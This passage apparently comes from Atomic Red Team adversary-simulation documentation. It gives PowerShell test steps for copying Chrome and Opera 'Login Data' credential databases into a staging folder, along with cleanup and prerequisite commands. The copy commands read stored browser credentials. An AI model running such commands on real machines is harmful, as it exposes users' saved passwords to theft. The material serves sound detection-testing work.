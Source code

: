 #### Attack Commands: Run with `powershell`!

```powershell
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
Copy-Item "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data For Account" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
```

#### Cleanup Commands:

```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data" -Force -ErrorAction Ignore
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Login Data For Account" -Force -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Chrome must be installed

##### Check Prereq Commands:

```powershell
if ((Test-Path "C:\Program Files\Google\Chrome\Application\chrome.exe") -Or (Test-Path "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe")) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi"
Invoke-WebRequest -OutFile "PathToAtomicsFolder\..\ExternalPayloads\ChromeStandaloneSetup64.msi" https://dl.google.com/chrome/install/googlechromestandaloneenterprise64.msi
msiexec /i $installer /qn
Start-Process -FilePath "chrome.exe"
Stop-Process -Name "chrome"
```

<br/>
<br/>

## Atomic Test #5 - Simulating access to Opera Login Data

Simulates an adversary accessing encrypted credentials from Opera web browser's login database.

**Supported Platforms:** Windows

**auto_generated_guid:** 28498c17-57e4-495a-b0be-cc1e36de408b

#### Attack Commands: Run with `powershell`!

```powershell
Copy-Item "$env:APPDATA\Opera Software\Opera Stable\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads"
```
